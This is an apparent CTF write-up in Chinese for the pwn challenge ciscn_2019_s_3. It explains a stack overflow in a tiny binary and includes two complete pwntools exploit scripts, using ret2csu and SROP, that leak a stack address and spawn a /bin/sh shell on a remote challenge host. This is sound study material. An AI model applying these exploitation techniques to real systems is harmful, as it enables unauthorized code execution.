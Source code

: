 ```yaml
---
layout: post
title:  ciscn_2019_s_3
date:   2021-02-05 00:01:01 +0300
image:  2021-02-05-sleigh-ride.jpg
tags:   [ctf,Pwn,ciscn2019,ret2csu,SROP]
---
```


**main()**

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vuln();
}
```

**vuln()**

```assembly
signed __int64 vuln()
{
  signed __int64 result; // rax

  __asm { syscall; LINUX - sys_read }
  result = 1LL;
  __asm { syscall; LINUX - sys_write }
  return result;
}
```

其实这个函数不能从反汇编的结果来看，这样什么都看不出来，应该直接看汇编。

```assembly
.text:00000000004004ED
.text:00000000004004ED ; =============== S U B R O U T I N E ============================
.text:00000000004004ED
.text:00000000004004ED ; Attributes: bp-based frame
.text:00000000004004ED
.text:00000000004004ED                 public vuln
.text:00000000004004ED vuln            proc near               ; CODE XREF: main+14↓p
.text:00000000004004ED
.text:00000000004004ED buf             = byte ptr -10h
.text:00000000004004ED
.text:00000000004004ED ; __unwind {
.text:00000000004004ED                 push    rbp
.text:00000000004004EE                 mov     rbp, rsp
.text:00000000004004F1                 xor     rax, rax
.text:00000000004004F4                 mov     edx, 400h       ; count
.text:00000000004004F9                 lea     rsi, [rsp+buf]  ; buf
.text:00000000004004FE                 mov     rdi, rax        ; fd
.text:0000000000400501                 syscall                 ; LINUX - sys_read
.text:0000000000400503                 mov     rax, 1
.text:000000000040050A                 mov     edx, 30h        ; count
.text:000000000040050F                 lea     rsi, [rsp+buf]  ; buf
.text:0000000000400514                 mov     rdi, rax        ; fd
.text:0000000000400517                 syscall                 ; LINUX - sys_write
.text:0000000000400519                 retn
.text:0000000000400519 vuln            endp ; sp-analysis failed
.text:0000000000400519
.text:0000000000400519 ; ----------------------------------------------------------------
```

buf大小为0x10

可以看到";"后的注释给出了参数count，buf，fd。因此可以确定为:

```assembly
read(0,buf,0x400);
write(1,buf,0x30);
```

存在溢出。

但是函数中没有leave，只有ret，

leave这个指令等价于

```assembly
mov	esp, ebp
pop	ebp
```

释放早先的ENTER指令设置的堆栈帧。LEAVE指令将帧指针（在EBP寄存器中）复制到堆栈指针寄存器 (ESP)，从而释放分配给堆栈帧的堆栈空间。然后，旧的帧指针（由ENTER指令保存的调用过程的帧指针）从堆栈弹入 EBP 寄存器，从而恢复调用过程的堆栈帧。

所以溢出为0x10。

**gadgets()**函数也要从汇编看

```assembly
.text:00000000004004D6
.text:00000000004004D6 ; =============== S U B R O U T I N E ============================
.text:00000000004004D6
.text:00000000004004D6 ; Attributes: bp-based frame
.text:00000000004004D6
.text:00000000004004D6                 public gadgets
.text:00000000004004D6 gadgets         proc near
.text:00000000004004D6 ; __unwind {
.text:00000000004004D6                 push    rbp
.text:00000000004004D7                 mov     rbp, rsp
.text:00000000004004DA                 mov     rax, 0Fh
.text:00000000004004E1                 retn
.text:00000000004004E1 gadgets         endp ; sp-analysis failed
.text:00000000004004E1
.text:00000000004004E2 ; ----------------------------------------------------------------
.text:00000000004004E2                 mov     rax, 3Bh
.text:00000000004004E9                 retn
.text:00000000004004E9 ; ----------------------------------------------------------------
.text:00000000004004EA                 db 90h
.text:00000000004004EB ; ----------------------------------------------------------------
.text:00000000004004EB                 pop     rbp
.text:00000000004004EC                 retn
.text:00000000004004EC ; } // starts at 4004D6
```

其中有两个指令：mov rax,0fh 以和mov rax 3Bh。这两个gadget控制了rax的值，看看这两个是什么系统调用。

x86_64 (64-bit)中

|  NR  | syscall name | %rax |     arg0 (%rdi)      |       arg1 (%rsi)       |       arg2 (%rdx)       | arg3 (%r10) | arg4 (%r8) | arg5 (%r9) |
| :--: | :----------: | :--: | :------------------: | :---------------------: | :---------------------: | :---------: | :--------: | :--------: |
|  15  | rt_sigreturn | 0x0f |          ?           |            ?            |            ?            |      ?      |     ?      |     ?      |
|  59  |    execve    | 0x3b | const char *filename | const char *const *argv | const char *const *envp |      -      |     -      |     -      |

通过sys_execve()可以控制寄存器的值调用execve("/bin/sh",0,0)

这里要注意的是，第一次溢出返回的函数不同，栈的布局也是不同的。

返回vuln()函数的栈布局

![]({{site.baseurl}}/img/2021-02-05-vuln.jpg)

还要注意的是

```
call    qword ptr [r12+rbx*8]
```

r12+rbx*8并不是接下来要执行的地址，而是存放接下来要执行语句的地址。

即**[r12+rbx\*8]**代表的是**r12 +** **rbx\*8**此**地址上的内容**。

```assembly
from pwn import *

context.log_level = 'debug'

io = remote("node3.buuoj.cn",29151)

main = 0x40051d
vuln = 0x4004ED
payload = "/bin/sh\x00" + "a"*8 + p64(vuln)
io.sendline(payload)

io.recv(0x20)
addr = u64(io.recv(8))
print(hex(addr))

binsh = addr - 0x118

pop_rbx_rbp_r12_r13_r14_r15 = 0x40059A
mov = 0x400580
mov_rax = 0x04004E2
pop_rdi = 0x4005A3
syscall = 0x400501
payload = "/bin/sh\x00"  + "b"*8 + p64(mov_rax) + p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) + p64(1) + p64(binsh+0x10) + p64(0) + p64(0) + p64(0)
payload += p64(mov) + "c"*(8*6 + 8)
# mov的操作将会抬升8*7共56字节的栈空间，
# 因此我们还需要提供56个字节的垃圾数据进行填充，
# 然后再拼接上retn要跳转的地址。
payload += p64(pop_rdi) + p64(binsh) + p64(syscall)
io.sendline(payload)

io.interactive()
```

### SOP

```
from pwn import *

# context.log_level = 'debug'

io = remote("node3.buuoj.cn",29151)

elf = ELF("./ciscn_s_3")
context.arch = elf.arch

main = 0x40051d
vuln = 0x4004ED
payload = "/bin/sh\x00" + "a"*8 + p64(vuln)
io.sendline(payload)

io.recv(0x20)
addr = u64(io.recv(8))
print(hex(addr))

binsh = addr - 0x118
syscall = 0x400501

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = binsh
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

sigreturn = 0x4004DA
payload = "/bin/sh\x00/bin/sh\x00" + p64(sigreturn) + p64(syscall) + str(sigframe)
io.sendline(payload)

io.interactive()
```

